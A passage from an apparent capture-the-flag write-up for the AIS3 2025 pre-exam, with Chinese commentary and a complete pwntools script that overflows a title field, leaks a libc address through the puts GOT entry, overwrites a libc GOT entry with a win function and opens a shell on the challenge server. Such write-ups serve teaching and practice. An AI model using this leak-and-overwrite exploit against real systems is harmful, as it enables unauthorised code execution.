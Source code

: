 ```python
addr = u64(leak.ljust(8, b'\x00'))
log.info(f'Leaked address: {hex(addr)}')
libc_base = addr - 0x187e50
log.info(f'Libc base address: {hex(libc_base)}')
r.interactive()
```

![image](/images/ais3-pre-exam-2025/ais3-pre-exam-2025_image38.png)

接下來只需要去找可以 control flow 的可寫段，並且把那一段寫成 backdoor function 就可以 control flow 了，而這部分就不多贅述，而我最後是寫到 puts 的 libc got table，因為這樣在寫完之後就可以直接 get shell(寫完之後本來會輸出 Edit Success)，以下是完整 script

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

def create(r, title, content):
    r.sendlineafter('> ', b'1')
    r.sendlineafter('title > ', title)
    r.sendlineafter('content > ', content)

def edit_title(r, title):
    r.sendlineafter('> ', b'2')
    r.sendlineafter('title > ', title)

def edit_content(r, content):
    r.sendlineafter('> ', b'3')
    r.sendlineafter('content > ', content)

def show(r):
    r.sendlineafter('> ', b'4')

def login(r):
    r.sendlineafter('Username > ', b"MyGO!!!!!")
    r.sendlineafter('Password > ', b"TomorinIsCute")

# r = process('./chal')
r = remote('chals1.ais3.org', 51000)
login(r)
put_got = 0x0000000000403fd0
write = 0x321098
win = 0x4013EC
create(r, b'a' * 0x16, b'b' * 0x16)
edit_title(r, b'a' * 24 + p64(put_got))
show(r)
r.recvuntil(b'Content : ')
leak = r.recvuntil(b'\n', drop=True)
addr = u64(leak.ljust(8, b'\x00'))
log.info(f'Leaked address: {hex(addr)}')
libc_base = addr - 0x187e50
log.info(f'Libc base address: {hex(libc_base)}')
log.info(f'Writable address: {hex(libc_base + write)}')
edit_title(r, b'a' * 24 + p64(libc_base + write))
edit_content(r, p64(win))
r.interactive()
```
